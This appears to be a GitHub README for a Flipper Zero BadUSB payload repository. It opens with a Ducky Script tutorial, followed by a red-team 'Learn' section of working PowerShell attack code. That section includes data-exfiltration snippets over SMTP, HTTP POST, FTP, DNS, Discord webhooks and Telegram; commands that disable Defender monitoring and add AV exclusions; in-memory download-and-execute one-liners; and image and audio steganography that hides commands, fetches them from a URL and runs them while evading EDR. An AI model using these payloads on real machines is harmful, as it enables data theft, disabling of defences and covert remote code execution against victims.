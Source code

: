 <div align="center">

  <img src="assets/logo.png" alt="logo" width="200" height="auto" />
  <h1>Flipper Zero BADUSB Repo</h1>
  
  <p>
    A Collection of Flipper Zero BADUSB Payloads
  </p>
</div>

<br />

<!-- Table of Contents -->
# Table of Contents 📒

- [About the Project](#about-the-project)
  * [Rubber Ducky](#rubber-ducky)
  * [Shop](#shop)
- [Getting Started](#getting-started)
  * [Variables](#variables)
  * [Installation](#installation)
  * [Deployment](#deployment)
  * [Learn](#learn)
- [Roadmap](#roadmap)
- [Contact](#contact)
- [Acknowledgements](#acknowledgements)

  

<!-- About the Project -->
## About the Project
This Repository is to assist others in their pentesting adventures in addition to helping those get their feet wet for Ducky Scripts 🐥

<!-- Rubber Ducky -->
## Rubber Ducky
A USB Rubber Ducky is a keystroke injection tool that looks like a USB flash drive. When plugged in, it executes pre-programmed scripts that mimic keyboard input, allowing for quick automation of tasks such as penetration testing and security assessments.

## Shop
<details>
  <summary>Hak5</summary>
  <ul>
    <li><a href="https://shop.hak5.org">Hak5 Shop</a></li>
    <li><a href="https://shop.hak5.org/products/usb-rubber-ducky">Rubber Ducky</a></li>
    <li><a href="https://payloadhub.com/blogs/payloads">Hak5's Payload Hub</a></li>
    <li><a href="https://docs.hak5.org/hak5-usb-rubber-ducky">Official Ducky Script Documentation</a></li>
  </ul>
</details>

<details>
  <summary>Flipper Zero</summary>
  <ul>
    <li><a href="https://shop.flipperzero.one">Flipper Zero Shop</a></li>
    <li><a href="https://docs.flipper.net/bad-usb">Flipper Zero's Badusb Documentation</a></li>
  </ul>
</details>

<details>
<summary>Digispark</summary>
  <ul>
    <li><a href="https://www.amazon.com/digispark/s?k=digispark">Amazon Digispark</a></li>
    <li><a href="https://blog.spacehuhn.com/badusb-digispark">Digispark Badusb</a></li>
    <li><a href="https://github.com/CharlesTheGreat77/DigiPass">Digispark Badusb Payloads</a></li>
  </ul>
</details>

<details>
<summary>External Flipper Resources</summary>
  <ul>
    <li><a href="https://github.com/jamisonderek">Mr. Derek Jamison</a></li>
  </ul>
</details>

<!-- Prerequisites -->
## Prerequisites
This project (and the Flipper Zero as a whole) uses *Ducky Script version 1*. Additionally, most payloads are tested in a *Windows 10* environment. Further testing will be needed on *Windows 11* environment security standards.

<!-- Getting Started -->
## Getting Started 
This is a VERY brief explanation of ducky script in my own words. One may refer to this <a href="https://gist.github.com/methanoliver/efebfe8f4008e167417d4ab96e5e3cac">link</a> if in doubt of supported commands.
<details>
    <summary>REM</summary>
  <ul>
    <li>REM is used as a comment, and does not perform ANY keystroke injection. It got the name REM from the word REMark (remark).</li>
  </ul>
  <pre><code>REM This is a comment</code></pre>
</details>

<details>
    <summary>STRING</summary>
  <ul>
    <li>STRING injects a series of keystrokes. Interpreting lowercase, uppercase, etc. automatically with Flipper Zero's implmentation.</li>
  </ul>
  <pre><code>STRING I Love You!
ENTER</code></pre>
  Output:
  <pre><code>I Love You!</code></pre>
  <ul>
    <li>we'll cover the ENTER command right after..</li>
  </ul>
</details>

<details>
    <summary>ENTER</summary>
  <ul>
    <li>ENTER does just that.. presses the return (enter) button! This is one of many supported commands which can be found <a href="https://gist.github.com/methanoliver/efebfe8f4008e167417d4ab96e5e3cac">here</a>!</li>
  </ul>
  <pre><code>STRING I Love You!
ENTER</code></pre>
  Output:
  <pre><code>I Love You!</code></pre>
</details>

<details>
    <summary>DELAY</summary>
  <ul>
    <li>DELAY creates a momentary pause in miliseconds. This is VERY useful when keystrokes are too fast for the target computer to interpret. If your working payload is failing.. this is probably the cause (ADD MORE DELAY).</li>
  </ul>
  <pre><code>STRING hey!
ENTER
DELAY 1000
STRING how are you?
ENTER
</code></pre>
  Output:
  <pre><code>hey!
[delays for 1 second]
how are you?</code></pre>
</details>

<details>
    <summary>Additional Commands</summary>
  <ul>
    <li>Modifiers: <pre><code>CTRL
CONTROL
SHIFT
ALT
GUI
WINDOWS</code></pre></li>
    <li>Combos: <pre><code>CTRL-ALT
CTRL-SHIFT
ALT-SHIFT
ALT-GUI
GUI-SHIFT</code></pre></li>
    <li>Cursors: <pre><code>DOWNARROW
DOWN
LEFTARROW
LEFT
RIGHTARROW
RIGHT
UPARROW
UP</code></pre></li>
    <li>Control and navigation: <pre><code>ENTER, BREAK, PAUSE, CAPSLOCK, DELETE, BACKSPACE, END, ESC, ESCAPE, HOME, INSERT, NUMLOCK, PAGEUP, PAGEDOWN, PRINTSCREEN, SCROLLOCK, SPACE, TAB, MENU, APP, SYSRQ</code></pre></li>
    <li>Functions: <pre><code>F1, F2, F3, F4, F5, F6, F7, F8, F9, F10, F11, F12</code></pre></li>
  </ul>
</details>

<details>
    <summary>Your first payload (Windows)</summary>
  <ul>
    <li>Lets create a simple payload to open notepad and display.</li>
  </ul>
  <pre><code>GUI r
STRING notepad.exe
ENTER
DELAY 2000
STRING hello world!
ENTER
</code></pre>
  Output: Opens the windows run box with GUI r [GUI is a modifier], and types in notepad.exe, which opens notetpad and types:
  <pre><code>hello world!</code></pre>
  <ul>
    <li>Again, you can find modifiers, combos, cursors, etc. <a href="https://gist.github.com/methanoliver/efebfe8f4008e167417d4ab96e5e3cac">here</a></li>
  </ul>
</details>



<!-- Variables -->
### Variables
To run most scripts, one must populate the variables inside the payload (.txt) file. All variables will be clearly stated with ```%CHANGE_ME%```

Examples:
```
discord_webook = %CHANGE_ME%
```
```
smtp_server = %CHANGE_ME%
```

<!-- Download -->
# Installation
<details>
    <summary>Install BADUSB Repository 🖥️</summary>
    <details>
        <summary>Windows Install 🪟</summary>
            <ul>
                <li>Download the zip and extract the contents in your preffered directory.</li>
            </ul>
            <ul>
                <img src="assets/download.png" alt="logo" width="auto" height="auto" />
            </ul>
    </details>
    <details>
        <summary>Linux Download 🖥️</summary>
        <ul>
            <li>In any terminal:</li>
            <pre><code>git clone https://github.com/CharlesTheGreat77/BADUSB</code></pre>
        </ul>
    </details>

</details>


<!-- Deployment -->
## Deployment

To deploy the payloads, one must edit the payload (if required) by changing the variables accordingly in the *.txt* file(s) of choice. 

Copy the payloads in the badusb folder in the flipper zero BADUSB directory.


<!-- Payload Development -->
## Learn
These are brief powershell concepts which covers just about whatever you need for red teaming.

<!-- Exfil Methods -->
<details>
    <summary>Exfiltration Methods</summary>
  <ul>
    <li>SMTP and/or SMS</li>
  </ul>

```powershell
$hello_world = "Hello World!" # exfiltrate data
$send_to = "%SEND_TO%" # could be the email used below, another email, or a phone number
$smtp_server = "%SMTP_SERVER%" # smtp.gmail.com
$smtp_username = "%SMTP_USERNAME%" # gmail account [example@gmail.com]
$token = "%TOKEN%" # gmail token/smtp password
$SMTPInfo = New-Object Net.Mail.SmtpClient($smtp_server, 587); $SMTPInfo.EnableSsl = $true; $SMTPInfo.Credentials = New-Object System.Net.NetworkCredential($smtp_username, $token); $ReportEmail = New-Object System.Net.Mail.MailMessage; $ReportEmail.From = $smtp_username; $ReportEmail.To.Add($send_to); $ReportEmail.Body = "Flipper Report: $hello_world"; $SMTPInfo.Send($ReportEmail)
```
Phone Number Setup for *send_to* variable:
    
    Format: <phonenumber>@smsgateway
    example: 9992221111@tmomail.net
SMS Gateways for Service Providers can be found <a href="https://www.fbbbrown.com/help-faq/app-help/runsafe/list-of-mobile-carrier-gateway-addresses/">here</a>!

  <ul>
    <li>File Transfer with curl:</li>
  </ul>

```powershell
curl.exe -F "file1=@filename.txt" <end_point>
```
  <ul>
    <li>HTTP POST request:</li>
  </ul>

```powershell
$content = Get-Content %FILE_TO_EXFIL% # output.txt
Invoke-WebRequest -Uri http://<http_server> -Method POST -Body $content
```
Exfiltrat files and send the contents via a HTTP post request.

  <ul>
    <li>FTP File Upload:</li>
  </ul>

```powershell
$fileName = "%FILENAME%"
$ftpUrl = "%FTP_URL%"
$ftpPassw = "%FTP_PASSWORD%"
$sampleData = "Sample data for exfiltration test"
Set-Content -Path $fileName -Value $sampleData
$creds = Get-Credential -Credential $ftpPassw
Invoke-WebRequest -Uri $ftpUrl -Method Put -InFile $fileName -Credential $creds
```
Upload files via FTP to an existing FTP server
  <ul>
    <li>Exfiltrate over DNS:</li>
  </ul>

```powershell
$dnsServer = "%DNS_SERVER%"
$exfiltratedData = "String of exfiltrated data"
$chunkSize = 63 # look at the sizes of record types
$encodedData = [System.Text.Encoding]::UTF8.GetBytes($exfiltratedData)
$encodedData = [Convert]::ToBase64String($encodedData)
$chunks = $encodedData -split "(.{$chunkSize})"
foreach ($chunk in $chunks) {
    $dnsQuery = $chunk + "." + $dnsServer
    Resolve-DnsName -Name $dnsQuery
    Start-Sleep -Seconds 5
}
```
  <ul>
    <li>Exfiltrate File using curl to Discord Webhook:</li>
  </ul>

```powershell
$discordWebhook = '%WEBHOOK%'
curl.exe -F "file1=@%FILENAME%" $discordWebhook
```

  <ul>
    <li>Exfiltrate data to Discord Webhook:</li>
  </ul>

```powershell
$discordWebhook = "%WEBHOOK%"
$content='This is exfiltrated data'; $payload=[PSCustomObject]@{ content=$content }
Invoke-RestMethod -ContentType "Application/Json" -Uri $webhook -Method Post -Body ($payload | ConvertTo-Json)
```

  <ul>
    <li>Exfiltrate data to Telegram:</li>
  </ul>

```powershell
$id = "%CHAT_ID%"
$token = "%TELE_TOKEN%"
$data = "Exiltrated data example"
$URL = "https://api.telegram.org/bot{0}" -f $token
$MessageToSend = New-Object psobject; $MessageToSend | Add-Member -MemberType NoteProperty -Name 'chat_id' -Value $id
$MessageToSend | Add-Member -MemberType NoteProperty -Name 'text' -Value "$data"
Invoke-RestMethod -Method Post -Uri ($URL +'/sendMessage') -Body ($MessageToSend | ConvertTo-Json) -ContentType "application/json"
```


<!-- Execution Policy/AV Stuff -->
</details>

<details>
    <summary>ExecutionPolicy/AV</summary>
    <ul>
        <li>Disable Real Time Monitoring, Behavior Monitoring etc:</li>
    </ul>

```powershell
Set-MpPreference -DisableRealtimeMonitoring $true -DisableScriptScanning $true -DisableBehaviorMonitoring $true -DisableIOAVProtection $true -DisableIntrusionPreventionSystem $true
```

Admin Privileges is Required.

```powershell
powershell "Start-Process powershell -verb runas"
```

Can open powershell as admin.

  <ul>
    <li>Set Exclusive Path:</li>
  </ul>

```powershell
Add-MpPreference -ExclusionPath %PATH% ; Set-ExecutionPolicy unrestricted
```
To restrict the path back to normal:
```powershell
Remove-MpPreference -ExclusionPath %PATH% ; Set-ExecutionPolicy restricted
```
</details>

<!-- Execution -->
<details>
    <summary>Execution Tactics</summary>
    <ul>
        <li>Execute File from URL in memory:</li>
    </ul>

```powershell
iex(New-Object Net.WebClient).DownloadString('%URL_TO_PS1_FILE%')
```

</details>
<!-- Steganography -->
<details>
    <summary>Steganography (with Python)</summary>
    <p>Steganography is hiding secret information within ordinary-looking files like images or documents. Red teamers use it to sneak sensitive data or commands past security defenses. They can embed data in files to avoid detection, extract information stealthily from networks, hide malware, or verify file authenticity. It helps simulate realistic attacks and test how well defenses can detect covert activities.</p>

Prerequisites For The Methods Below:
| Prerequisite | Version |
|--------------|---------|
| Python       |  <=3    |

```
pip3 install Pillow numpy
```

  <ul>
    <li>LSB Encoding Powershell commands in an image:</li>
  </ul>

This technique encodes our powershell commands into specific regions of an image by replacing the LSB of the RGB color channels to our powershell command.


Here's a python implementation to encode our command:
<!-- LSB Encoder -->
```python
from PIL import Image
import numpy as np

def encode_data_in_region(image_path, data, region):
    img = Image.open(image_path)
    binary_data = ''.join(format(ord(char), '08b') for char in data)
    if len(binary_data) > region[2] * region[3] * 3:
        raise ValueError("Data too large to be encoded in the specified region")
    img_array = np.array(img)
    y_start, x_start, height, width = region
    binary_data_iter = iter(binary_data)
    for y in range(y_start, y_start + height):
        for x in range(x_start, x_start + width):
            if len(binary_data) == 0:
                break
            pixel = img_array[y, x]
            for i in range(3):
                try:
                    bit = int(next(binary_data_iter))
                except StopIteration:
                    bit = 0  # pad wit 0's
                pixel[i] = (pixel[i] & 0xFE) | bit # clear RGB color channel, replace with LSB bit value
                encoded_img = Image.fromarray(img_array)
    return encoded_img

# Usage
image_path = '%FILEPATH%'
secret_data = "whoami"
region_to_encode = (100, 100, 50, 50)  # Define the region as (y_start, x_start, height, width)
encoded_image = encode_data_in_region(image_path, secret_data, region_to_encode)
encoded_image.save('encoded_image.png')
```

This encodes a string in an image using LSB encoding at specific regions ```(100, 100, 50, 50)``` to hide the commands within the image for execution. It then outputs the encoded image to a png file.

We can now **post** or **host** the encoded image for the target machine to download.

1. Create a github repository
2. Host in locally using python server.http
3. External file sharing providers

<!-- LSB Decoder -->
Lets now decode the commmand in the image using powershell and execute:
```powershell
$url = %URL_TO_IMAGE%
$imagePath = encoded_image.png
# download encoded image
$webClient = New-Object System.Net.WebClient
$webClient.DownloadFile($url, $imagePath)

Add-Type -AssemblyName System.Drawing

try {
    $imageBytes = [System.IO.File]::ReadAllBytes($imagePath)
    $memoryStream = New-Object System.IO.MemoryStream
    $memoryStream.Write($imageBytes, 0, $imageBytes.Length)
    $memoryStream.Seek(0, 'Begin') | Out-Null

    $image = [System.Drawing.Image]::FromStream($memoryStream)
    # regions we set in the encoder
    $region = New-Object System.Drawing.Rectangle(100, 100, 50, 50)

    $bitmap = New-Object System.Drawing.Bitmap($image)

    $decodedData = ""
    for ($y = $region.Top; $y -lt ($region.Top + $region.Height); $y++) {
        for ($x = $region.Left; $x -lt ($region.Left + $region.Width); $x++) {
            $color = $bitmap.GetPixel($x, $y)
            # Extract the lsb from each color channel
            $bit = $color.R -band 1
            $decodedData += $bit
            $bit = $color.G -band 1
            $decodedData += $bit
            $bit = $color.B -band 1
            $decodedData += $bit
        }
    }

    $paddingLength = 8 - ($decodedData.Length % 8)
    if ($paddingLength -ne 8) {
        $decodedData += '0' * $paddingLength
    }
    $decodedMessage = ""
    for ($i = 0; $i -lt $decodedData.Length; $i += 8) {
        $byte = [Convert]::ToByte($decodedData.Substring($i, 8), 2)
        $decodedMessage += [char]$byte
    }

    $decodedMessage = $decodedMessage -creplace "[^\x20-\x7E]", ""
    Write-Host $decodedMessage # output command
}
catch {
    Write-Host "Error: $_"
}
```
**Note** the url path, after uploading the encoded image to your file sharing provider, copy & paste the **direct** url to your encoded file inside the decoders ```$url``` variable.

Next we can upload our decoder file as a text file to easily grab the contents of the file for it to download the image, decode, and execute!

OR

We can convert this existing decoder to a *Ducky Script*, update the ```$url``` variable to where your audio file is stored and call it a day!

Executing on a target machine would look like this when saving the decoder to a file sharing website:
```powershell
iex(iwr %download_to_decoder.txt%).Content | iex
```
Issues with this technique is uploading to external file sharing providers, as they may *modify/compress* the file upon upload, which creates an issue with our existing decoding process.

<!-- Spread Spectrum Encoding -->
  <ul>
    <li>Spread Spectrum encoding:</li>
  </ul>
In this Technique, we'll convert the commands into binary and encode it into an audio file. By adjusting the amplitude for each bit (0/1), we can encode our commands in the audio without distoring the sound.


Heres a python implementation to encode our command:
```python
import wave
import numpy as np

def spread_spectrum_audio_encode(audio_path, message):
    with wave.open(audio_path, 'rb') as audio_file:
        audio_params = audio_file.getparams()
        audio_frames = audio_file.readframes(audio_params.nframes)
    audio_data = np.frombuffer(audio_frames, dtype=np.int16)
    
    binary_message = ''.join(format(ord(char), '08b') for char in message)
    message_length = len(binary_message)
    
    watermarked_audio_data = audio_data.copy()
    for i in range(message_length):
        if binary_message[i] == '1':
            watermarked_audio_data[i] += 100  # Increase amplitude for '1'
        else:
            watermarked_audio_data[i] -= 100  # Decrease amplitude for '0'
    
    with wave.open('watermarked_audio.wav', 'wb') as watermarked_audio_file:
        watermarked_audio_file.setparams(audio_params)
        watermarked_audio_file.writeframes(watermarked_audio_data.tobytes())

# Usage
audio_path = '%FILEPATH%.wav'
message = "whoami"
print(f'[*] Length of Message: {len(message)}') # remember length of message
spread_spectrum_audio_encode(audio_path, message)
```
This will encode our command ```whoami``` in a newly created audio file called ```watermarked_audio.wav```. *Take note* of our message length (length: ```6```).


Much like our LSB technique, we can upload or host our newly encoded audio file for our target machine to download.

Lets decode the audio file in powershell and execute:
```powershell
$url = "%URL_TO_AUDIO_FILE%"
# INPUT the length of MESSAGE!!
# $length = 6 [whoami = 6]
$length = 6 # edit this base on message length

function Decode-SpreadSpectrumAudio {
    param (
        [byte[]]$audioBytes,
        [int]$messageLength
    )
    try {
        $extractedMessage = ""
        for ($i = 44; $i -lt ($messageLength * 2) + 44; $i += 2) {
            # conv two bytes to a 16-bit signed int
            $sample = [BitConverter]::ToInt16($audioBytes, $i)

            if ($sample -gt 0) {
                $extractedMessage += "1"
            }
            else {
                $extractedMessage += "0"
            }
        }
        $decodedMessage = ""
        for ($i = 0; $i -lt $extractedMessage.Length; $i += 8) {
            $binarySubstring = $extractedMessage.Substring($i, 8)
            $charCode = [Convert]::ToInt32($binarySubstring, 2)
            $decodedMessage += [char]$charCode
        }
        return $decodedMessage
    }
    catch {
        Write-Host "Error: $_"
    }
}

$messageLength = $length * 8
$req = (Invoke-WebRequest -Uri $url -Method Get -UseBasicParsing).Content
$decodedMessage = Decode-SpreadSpectrumAudio -audioBytes $req -messageLength $messageLength
"$decodedMessage"
```

**Note** the url path, after uploading the encoded audio to your file sharing provider, copy & paste the **direct** url to your encoded file inside the decoders ```$url``` variable.

Next we can upload our decoder file as a text file to easily grab the contents of the file for it to download the audio, decode, and execute!

OR

We can convert this existing decoder to a *Ducky Script*, update the ```$url``` variable to where your audio file is stored and the length of your powershell command, and call it a day!

Executing this with the first option above looks like such:
```powershell
iex(iwr %URL_TO_DECODER.txt%).Content | iex
```

When using steganography as a means of execution or exfiltration, it's best to familiarize yourself with the documents, attachments, etc. that are common in the environment one is pentesting. Additionally, downloading images or audio files from suspicious URLs or the images itself contain odd graphics or other means of content is a huge red flag. Be wise on the images or audio files in use to keep a low profile on EDR solutions etc.

These techniques can be found in another repository of mine <a href="https://github.com/CharlesTheGreat77/BadSteganography">here</a>.
</details>

<!-- Utilities -->
<details>
    <summary>Utilities</summary>
    <ul>
        <li>Get contents of file to a variable:</li>
    </ul>

```powershell
$content = [IO.File]::ReadAllText("%FILEPATH%");
```
OR
```powershell
$content = [System.IO.File]::ReadAllLines("%FILEPATH%")
```
```powershell
$content = cat %FILEPATH%
```
```powershell
$content = Get-Content -Path %FILEPATH%
```
```powershell
$reader = [System.IO.StreamReader]::new("%FILEPATH%")
try {
    $content = $reader.ReadToEnd()
} finally {
    $reader.Close()
}
```
</details>

<!-- Roadmap -->
## Roadmap

* [ ] Update Learn section in README
* [ ] Update filesystem hierarchy
* [ ] Update Payload list

<!-- Contact -->
## Contact

Dicord: DoobTheGoober

Projects: [github](https://github.com/CharlesTheGreat77)


<!-- Acknowledgments -->
## Acknowledgements
I want to give some honor to specific individuals regardless of contribution for payload creation or sheer knowledge and motivation!

 - [Rocket God](https://github.com/RocketGod-git)
 - [Kavitate](https://github.com/Kavitate)
 - [Derek Jamison](https://github.com/jamisonderek)
 - [Redd](https://github.com/InfoSecREDD)
